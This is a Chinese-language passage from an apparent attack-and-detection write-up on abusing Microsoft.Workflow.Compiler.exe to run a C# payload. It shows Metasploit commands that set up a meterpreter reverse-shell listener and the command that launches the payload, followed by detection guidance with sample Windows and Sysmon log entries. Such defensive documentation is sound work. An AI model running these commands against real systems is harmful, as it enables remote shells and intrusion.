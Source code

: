 **执行监听**

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```

**执行payload**

```dos
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml 1.cs
```

**接收session**

进程意外终止，未获得会话。

## 检测日志

### 数据来源
- Windows安全日志：
  - 事件ID 4688：进程创建，记录`Microsoft.Workflow.Compiler.exe`的执行信息。
- Sysmon日志：
  - 事件ID 1：进程创建，包含命令行、哈希值和父进程。
  - 事件ID 7：映像加载，记录加载的DLL。
  - 事件ID 12/13：注册表操作，可能涉及临时文件或编译结果。
- 文件监控：
  - 检测非标准路径下的XML或C#文件。
- 网络监控：
  - 检测`Microsoft.Workflow.Compiler.exe`发起的异常网络连接（如反弹Shell）。

### 日志示例
- 事件ID 4688示例：
  ```
  进程信息:
    新进程名称:C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe
    命令行:C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml payload.cs
    创建者进程名称:C:\Windows\System32\cmd.exe
  ```
- Sysmon事件ID 1示例：
  ```
  事件ID:1
  OriginalFileName:Microsoft.Workflow.Compiler.exe
  CommandLine:C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe poc.xml payload.cs
  CurrentDirectory:C:\Users\Administrator\
  User:DOMAIN\Administrator
  Hashes:SHA1=BA135738EF1FB2F4C2C6C610BE2C4E855A526668
  ParentImage:C:\Windows\System32\cmd.exe
  ```
